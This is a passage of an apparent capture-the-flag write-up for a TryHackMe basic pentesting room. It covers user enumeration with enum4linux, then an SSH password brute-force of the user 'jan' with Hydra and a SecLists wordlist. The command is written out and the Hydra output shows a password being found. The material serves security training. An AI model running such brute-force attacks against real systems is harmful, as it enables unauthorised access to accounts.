 ![/development/directory](6)
in dev.txt we get
```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
This corresponds to what we saw in the nmap scan with the Apache version and SMB being available.
In j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
So seeing that information we know what to look for with J & K in bruteforcing.

##### 4. User brute-forcing to find the username & password
###### 5. What is the username?
###### 6. What is the password?
Lets give a look at the enum4Linux script to see what we have available.  Scrolling down to enumerating users we see this:
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
Luckily that gives us a user (jan) to then bruteforce. I know from different resources that Hydra is a good resource to crack SSH with wordlists. I also use [SecLists](7) here as it has more options than the regular rockyou.txt
`hydra -l jan -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt [webappIP] ssh
`
After running for a bit we get the output
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-17 15:52:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking ssh://10.10.68.148:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 9823 to do in 00:56h, 16 active
[STATUS] 119.33 tries/min, 358 tries in 00:03h, 9643 to do in 01:21h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 9183 to do in 01:19h, 16 active
[STATUS] 113.20 tries/min, 1698 tries in 00:15h, 8303 to do in 01:14h, 16 active
[22][ssh] host: 10.10.68.148   login: jan   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
```
##### 7. What service do you use to access the server
Perfect! We now have a login for ssh to do.

[1]: https://tryhackme.com/room/basicpentesting
[2]: https://tryhackme.com/access
[3]: https://nmap.org/
[4]: https://ippsec.rocks/#
[5]: https://github.com/OJ/gobuster
[6]: .\resources\webapp_80_files.png
[7]: https://github.com/danielmiessler/SecLists
[8]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[9]: https://github.com/magnumripper/JohnTheRipper
[10]: .\resources\webapp_ssh_kay.png